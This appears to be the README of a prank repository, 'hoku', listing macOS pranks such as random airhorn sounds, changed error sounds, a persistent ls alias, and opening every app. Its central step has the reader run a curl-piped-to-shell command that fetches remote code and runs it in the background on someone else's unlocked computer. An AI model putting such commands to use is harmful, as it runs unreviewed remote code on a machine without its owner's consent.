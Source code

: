 ### :speak_no_evil: hoku :speak_no_evil:

when someone leaves their computer unlocked, you want to do something. this is a repo of silly things you can do. they all follow the same idea. you run

`sh <(curl -sL hoku.me/xx) &`

in their terminal, where `xx` is the two-letter identifier of the prank payload.

-----
`ah`: play an airhorn sound randomly every x seconds, where x is between 0 and 800
 
`al`: change the default mac error sound to an airhorn and start a sleeper as a diversion
 
`er`: play the default mac error sound randomly every x seconds, where x is between 0 and 30
 
`fr`: play Friday by Rebecca Black on friday
 
`ls`: change the default mac error sound to an airhorn and set up a bash alias for `ls` to change it back to an airhorn if it's not already
 
`np`: open text edit and say 'gotcha' randomly every x seconds, where x is between 0 and 800

`op`: sleep for 10 minutes and then open every app in /Applications 

### contributing
if you have an idea for a prank, go ahead and put in a PR :)
